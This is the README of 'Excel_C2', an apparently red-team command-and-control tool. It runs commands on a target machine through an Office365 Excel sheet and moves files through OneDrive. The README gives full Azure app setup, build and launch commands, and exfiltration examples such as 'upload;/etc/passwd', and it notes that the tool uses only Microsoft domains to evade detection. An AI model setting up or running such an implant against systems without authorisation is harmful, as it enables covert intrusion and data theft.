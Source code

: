 # Excel_C2

Excel_C2 (Excel Command and Control) is a Command and Control application that allows an attacker to execute commands on the target machine using an Office365 Excel sheet and exfiltrates data OneDrive.

## Why

This program has been developed in order to provide a command and control that does not require any particular set up (like: a custom domain, VPS, CDN, ...) during Red Teaming activities.

Furthermore, the program will interact only with Microsoft's domains to make detection more difficult.

## Requirements

- Azure AD login with permissions to:
  - Register Application
    - Apply Delegated and Application permissions for Files.ReadWrite.All
  - Grant admin consent confirmation
- O365 Subscription

## Set up

1. **Register an Azure Portal App**
    1. Log into the [Azure Active Directory Admin center](https://aad.portal.azure.com/) with a Global Administrator Account.
    1. Select **Users** on the left navigation panel
    1. Select your user and note the **Object ID**.  This will be used for the `userId` (or `USER_ID` environment variable)
      ![User Id](img/user-id.png)
    1. Expand **Azure Active Directory** on the left navigation panel
    1. Expand **Applications**
    1. Select **App registrations** \
      ![App registrations](img/aad-portal-app-registrations.png)
    1. Click the  **New Registration** button \
      ![New registration](img/new-registration.png)
    1. Enter a name for your new app, select "Accounts in this organizational directory only (MSFT only - Single Tenant)", and click the **Register** button \
      ![New application](img/new-application.png)
    1. On the application page, note the **Application (client) ID** and **Directory (tenant) ID** values.  They will be used for `clientId` and `tenantId` respectively (or `CLIENT_ID` and `TENANT_ID` environment variables) \
      ![App IDs](img/app-ids.png)
    1. Click **API permissions** \
      ![API permissions](img/api-perms.png)
    1. Click the **Add a permission** button \
      ![Add permission](img/add-perm-button.png)
    1. Click the **Microsoft Graph** button \
      ![Add MS Graph](img/add-graph-perm.png)
    1. Click the **Application permissions** button \
      ![Application Permissions](img/app-perm.png)
    1. Type "files" to filter the permissions.  Then expand the **Files** option and check the box next to "Files.ReadWriteAll" and click the **Add permissions** button \
      ![File Permissions](img/files-perm.png)
    1. Add the same "Files.ReadWrite.All" under the **Delegated permissions** area
    1. Back on the "API permissions" page, click the **Grant admin consent for MSFT** button and **Yes** in the banner \
      ![Grant Consent](img/grant-consent.png)
    1. In the naviation menu, select **Certificates & secrets** and click the **New client secret** button \
      ![New Secret](img/new-secret.png)
    1. Enter a description and click the **Add** button \
      ![Add Secret](img/add-secret.png)
    1. Copy the "Value" field of your newly created secret.  This will not be displayed again once you leave this page.  This will be used for the `clientSecret` field (or `CLIENT_SECRET` environment variable)\
      ![Copy Secret](img/copy-secret.png)

1. **Create the Excel Spreadsheet**

    1. Login with the same account to [OneDrive](https://onedrive.live.com)
    1. Click on the arrow next to the **New** button and select **Excel workbook**.  The file name will be used for the `fileName` field (or `FILE_NAME` environment variable)\
      ![New Workbook](img/new-excel.png)

1. **Setup Environment**

    There are 3 different ways to configure the credentials for the app.
    1. You can hardcode the values in the root.go file before building
    1. You can set environment variables that will be read during the execution of the application
    1. You can pass the values as flags to the application when starting

    ***Below are the flags for the different methods:***

    | Credential | root.go Variable | Environment Variable | Comamnd Flag |
    | --- | --- | --- | --- |
    | Tenant ID from Azure App #9 | tenantId | TENANT_ID | tenant |
    | Client ID from Azure App #9 | clientId | CLIENT_ID | client |
    | Client Secret from Azure App #19 | clientSecret | CLIENT_SECRET | secret |
    | User Id from Azure App #3 | userId | USER_ID | user |
    | Filename from Excel Spreadsheet #2 | fileName | FILE_NAME | file |

1. **Build executable**

    ```bash
    git clone https://github.com/grantok/Excel-C2
    cd Excel-C2
    go build excel-c2.go
    ```

1. **Start the C2**

    ```none
    excel-c2 --tenant <tenantId> --client <clientId> --secret <clientSecret> --file <fileId> --user <userId> --verbos <true|false>
    ```

   > Note: you can also hardcode the parameters in the code, so you will upload only the executable on the target machine (look at comments in root.go)

### Features

- Command execution using Office365 Excel Sheet as a console
- Download files on the target using Microsfot OneDrive
- Upload files (data exfiltration) using Microsft OneDrive
- Exit

#### Command execution

The program will perform a request to the spreedsheet every 30 sec (by default) to check for new commands.
Enter the command in column **A** and the output will be added to column **B**

#### Upload File

The "upload" command will upload a file from the target machine to OneDrive.  The syntax is:

 ```none
upload;<remote path>
 ```

Example:

 ```none
upload;/etc/passwd
 ```

> NOTE: DO **NOT** add spaces around semi-colons.

#### Download File

The "download" command will download a file from OneDrive to the target machine.  The syntax is:

 ```none
download;<OneDrive file name>;<remote path>
 ```

Example:

 ```none
download;down.txt;/home/user/downloaded.txt
 ```

> NOTE: DO **NOT** add spaces around semi-colons.

#### Exit

By sending the command *exit*, the program will delete itself from the target and kill its process

> NOTE: From *os* documentation:
> *If a symlink was used to start the process, depending on the operating system, the result might be the symlink or the path it pointed to*. In this case the symlink is deleted.

### WorkFlow

![Workflow](img/workflow.png)

### Demo

![Demo](img/demo.gif)

### Disclaimer

The owner of this project is not responsible for any illegal usage of this program.

This is an open source project meant to be used with authorization to assess the security posture and for research purposes.

The final user is solely responsible for their actions and decisions. The use of this project is at your own risk. The owner of this project does not accept any liability for any loss or damage caused by the use of this project.

### Inspired from

[https://github.com/looCiprian/GC2-sheet](https://github.com/looCiprian/GC2-sheet)

### Support the project

Pull request
